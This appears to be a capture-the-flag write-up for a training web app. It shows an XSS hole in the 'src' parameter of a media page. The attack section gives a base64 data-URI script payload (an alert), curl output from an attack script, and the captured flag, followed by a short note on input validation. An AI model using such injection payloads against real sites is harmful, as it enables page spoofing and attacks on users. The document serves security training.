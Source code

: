 # Media_xss

## Description

If we go to http://${IP}/index.php?page=media&src=nsa
We see a query parameter src=nsa
If we try to chnage it, our input is processed
We can immagine to send anything in the src param
In fact we find an xss vulerabilitie
An attacker could use this to send urls with the right domain but malicious params to make you think everything you're seeing is legit

## Attack

To attack this we are gonna convert a malicious script with a base64 encoding and it's header to make the browser process it

data:text/html;base64,PHNjcmlwdD5hbGVydCgiaGFjayIpPC9zY3JpcHQ+ 

	$ bash attack.sh
	% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
									Dload  Upload   Total   Spent    Left  Speed
	100  2129    0  2129    0     0   199k      0 --:--:-- --:--:-- --:--:-- 1039k
	<center><h2 style="margin-top:50px;"> The flag is : 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center><table style="margin-top:-68px;"></table>                            </div>

THE FLAG IS : 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d

## Defense

Restrict the src param to only trusted value and add an input validation before process